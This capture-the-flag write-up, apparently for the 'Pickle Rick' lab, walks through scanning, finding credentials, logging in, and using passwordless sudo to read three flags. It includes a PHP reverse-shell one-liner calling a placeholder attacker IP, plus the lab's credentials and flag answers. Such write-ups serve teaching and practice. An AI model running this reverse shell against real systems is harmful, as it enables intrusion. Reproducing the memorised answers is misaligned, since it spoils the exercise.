



# Pickle Rick

**Target IP : 10.10.152.72**

- Username: "R1ckRul3s" (page source)

#### Nmap Scanning
Open Ports
- 22 : OpenSSH
- 80 : Apache/2.4.18 (Webserver)

Nmap result : [here](./intitial-scan.txt)

#### Enumeration
we found robots.txt,
- Looking this file we think, *password* might be : "Wubbalubbadubdub"
- Found "/login.php" page from nikto output
	

Enumeration result : [here](./enum-initial.txt)

#### Flags

Using above credentials, login to "10.10.152.72/login.php"
- execute ls command to list files (or we can have a reverse shell setup using
	```php
	php -r '$sock=fsockopen("<attacking-machine IP>",<port>);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

	```
	)

- Concatenate Sup3rS3cretPickl3Ingred.txt file using<br>
	```bash
	less Sup3rS3cretPickl3Ingred.txt

	```
	**First Ingredient : "mr. meeseek hair"**

- Concatenate clue.txt file for further details of other ingredients.

- From clue.txt, we start searching other ingredients and found one in "/home/rick/second\ ingredients"<br>
	**Second Ingredient : "1 jerry tear"**

let's check do we need password to run sudo command using

```bash
sudo -l

```

we get,


From this line ("(ALL) NOPASSWD: ALL)") we are sure that we can run any command with sudo without having password.

- list content of root directory using,
	```bash
	sudo ls /root

	```

we get,


- Concatenate 3rd.txt.<br>
	**Third Ingredient : "fleeb juice"**
